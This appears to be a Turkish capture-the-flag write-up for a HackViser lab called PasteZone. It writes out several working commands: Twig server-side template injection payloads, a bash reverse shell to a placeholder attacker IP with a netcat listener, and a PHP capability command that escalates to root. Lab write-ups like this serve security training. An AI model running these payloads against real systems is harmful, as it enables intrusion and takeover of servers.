








# PasteZone CTF Çözüm Raporu

## Genel Bilgiler

- **Platform**: HackViser
- **Senaryo Adı**: PasteZone
- **URL**: https://app.hackviser.com/scenarios/pastezone
- **Tarih**: 5 Mart 2026

## Senaryo Açıklaması

Gece yarısı gelen istihbarat uyarılarıyla birlikte tüm birimler alarma geçti: Kritik bir kamu kurumuna, Enerji Bakanlığı'na, ait hassas verilerin karanlık web'in en popüler illegal paylaşım platformlarından PasteZone'da satışa çıkarıldığı tespit edildi. Siber suçlular bu platformda hedef sistemleri, kritik açıkları ve ele geçirdikleri verileri anonim olarak paylaşıyor. Yapılan ön araştırmalar, paylaşılan örneklerin ve içeriklerin doğrudan Enerji Bakanlığı sistemlerinden sızdırıldığını doğruladı. Bu sızıntının ulusal güvenlik açısından ciddi riskler barındırdığı değerlendiriliyor.

Görevin; bu paylaşımdan sorumlu kişi ya da grupları tespit etmek, PasteZone platformunun yöneticileri hakkında bilgi toplamak ve delilleri ortaya çıkarmaktır.

## Flag'lar ve Çözümler

### Flag 1: energy.gov.hv gönderisini paylaşan kullanıcının iletişim e-posta adresi nedir?

#### Analiz:
- Siteye giriş yaptığımız zaman bizi bir yasadışı haber ticareti sitesi karşılıyor. 



- Biraz sörf yapınca flag postlardan birinde bizi buluyor. 

### Flag 2: energy.gov.hv verilerini paylaşan saldırganın IP adresi nedir?

#### Reconnaissance:

**Pasif Tarama:**
- Sistemde anonimlik esas alınmış bu yüzden kaynak kodlarında veya site içerisinde gizlenmiş IP adresleri veya ipuçları yok.
- Sistemde yetkilerimiz şunlar:
  - Post atmak: Attığımız her post bir ID alarak kaydediliyor.
  - Search: Paylaşılan postlar içeriğinde ve başlığında arama yapabiliriz.
  - Son paylaşımlar ve öne çıkanlar sayfalarına girebiliyoruz.
  - Services sayfası var ama her etkileşim bizi # ile sonlanıyor.

**Aktif Tarama:**
- IDOR denemeleri sonuç vermedi, postlar arasında gezinip durduk.
- Sistemde kayda değer bir nmap sonucu bulunmadı.
- Search kısmında sqlmap ve manuel zafiyet araştırması yapıldıysa sonuç alınamadı.
- Post kısmında stored XSS tahmini ile araştırmalar yapıldı ve sonuç alınamadı.
- Yazdığımız metinlerin arkada sınıflandırıldığını fark ettik. Yazdığımızın JS olduğunu anlayan bir şablon motoru çalışıyor.
- SSTI zafiyetini kanıtlamak için `{{7*7}}` yazıp post attık ve sonuç 49 döndü.

 

#### Silahlanma (Weaponization):
- Şablon motorunu tespit etmek için bazı denemeler yapıldı:
  - [Jinja2 - Python] Payload: `{{7*7}}` Expected Output: 49
  - [Twig - PHP] Payload: `{{7*7}}` Expected Output: 49
  - [Mako - Python] Payload: `${7*7}` Expected Output: 49
  - [Freemarker - Java] Payload: `${7*7}` Expected Output: 49
  - [Velocity - Java] Payload: `#set($x=7*7)$x` Expected Output: 49
  - [Smarty - PHP] Payload: `{$smarty.version}` Expected Output: Smarty version string

- Syntax Clues:
  - `{{ }}` -> Jinja2 / Twig
  - `${ }` -> Mako / Freemarker
  - `#set()` -> Velocity
  - `{$ }` -> Smarty

- Buradan Jinja veya Twig olabileceğini anladık, motorumuzu bulmak için:
  - `{{ ''.__class__.__mro__ }}` works → Jinja2
  - `{{ constant('PHP_VERSION') }}` works → Twig

- Aradığımız motor Twig çıktı.

- Artık sistem içerisinde gezinmeye başlamalıyız, uygun payloadı hazırlayalım.
- Birkaç denemeden sonra `{{['whoami']|filter('passthru')}}` payloadı ile sistemi dışarı taşıyabildik.
- Çıkarımlar: Sistemde komut çalışırsa ya cevap gelir ya da boş ekran, payload çalışmazsa olumsuz payloadı görürsünüz. WWW-data kullanıcısıyız.

#### İletme (Delivery) & Sömürme (Exploitation):
- Sisteme bu panelden girmek baya zahmetli olacaktır, kendimize bir shell çözelim.
- Bunu yapmak için sistemde reverse shell yapacağız.

**Step 1:**
- Terminalinizde bir portu netcat ile dinlemeye alın:
  ```
  nc -lvnp 4444
  ```

**Step 2:**
- Makinede bu payloadı çalıştırın ve terminalinize dönün:
  ```
  {{['bash -c "bash -i >& /dev/tcp/[HACKER_IP]/4444 0>&1"']|filter('passthru')}}
  ```

- Artık içerideyiz.

#### Post-Exploitation: 



- Birazda bu tarafda sörf yaptık ve bir pastezone.db'ye eriştik.
- DB içerisinde tek bir tablo var. Kolon bilgilerini yazdırdığımız zaman 

 



Komutlar:
```
pastezone.db ".TABLE"
pastezone.db ".schema notes"
sqlite3 pastezone.db ".schema notes"
CREATE TABLE notes (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    title TEXT NOT NULL,
    content TEXT NOT NULL,
    creator TEXT DEFAULT 'Anonymous',
    views INTEGER DEFAULT 0,
    rating INTEGER DEFAULT 0,
    ip_address TEXT DEFAULT '0.0.0.0',
    created_at DATETIME DEFAULT CURRENT_TIMESTAMP
);
```

- DB içerisinde aradığımız IP adresinin tutulduğu yer burası.
- `sqlite3 pastezone.db "select ip_address , id from notes"` komutu ile IP'leri buluyoruz ve flag tamamlanıyor.

### Flag 3 & Flag 4: PasteZone platform yöneticisinin GitHub hesabının "e-posta:parola" bilgileri nedir?

#### Etki Yükseltme (Privilege Escalation):
- Sistemde daha fazla gezemediğimiz için yetkileri kontrol ettik ve root olmamız gerektiğini anladık.
- Root olmak için `getcap -r / 2>/dev/null` komutuyla şansımızı deneyeceğimiz alanı belirledik.

 

- Çıktıdan bakınca zafiyetimiz anlaşılıyor ve `php8.4 -r "posix_setuid(0); system('/bin/bash');"` komutuyla root oluyoruz. 




```
www-data@debian:/var/www/html$ whoami
whoami
www-data
www-data@debian:/var/www/html$ php8.4 -r "posix_setuid(0); system('/bin/bash');"
< php8.4 -r "posix_setuid(0); system('/bin/bash');"
pwd
/var/www/html
whoami
root
```

- Bu noktadan sonra arama tarama başladı ve root dizininde bilgi aramaya başladık.

 

```
cd root
ls -la
total 36
drwx------  5 root root 4096 Aug 31  2025 .
drwxr-xr-x 18 root root 4096 Dec 27  2024 ..
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  5 root root 4096 Aug 26  2025 .cache
drwxr-xr-x  3 root root 4096 Aug 26  2025 .config
drwxr-xr-x  3 root root 4096 Dec 27  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root  921 Aug 31  2025 backup.py
-rw-r--r--  1 root root   39 Aug 31  2025 github.txt
```

- Ve buradaki github.txt 3. soruyu, backup.py 4. soruyu veriyor bize.

## Öğrenilenler
- SSTI (Server-Side Template Injection) zafiyetlerinin tespiti ve sömürülmesi.
- Twig şablon motorunun kullanımı.
- Reverse shell teknikleri.
- Privilege escalation yöntemleri (getcap kullanımı).
- Veritabanı analizi ve IP adresi çıkarımı.

## Notlar
- Resimler rapor içine gömülmüştür ve GitHub'da görüntülenecektir.
- img2 mevcut olmadığı için atlandı.
- Bu rapor HackViser PasteZone senaryosu için hazırlanmıştır.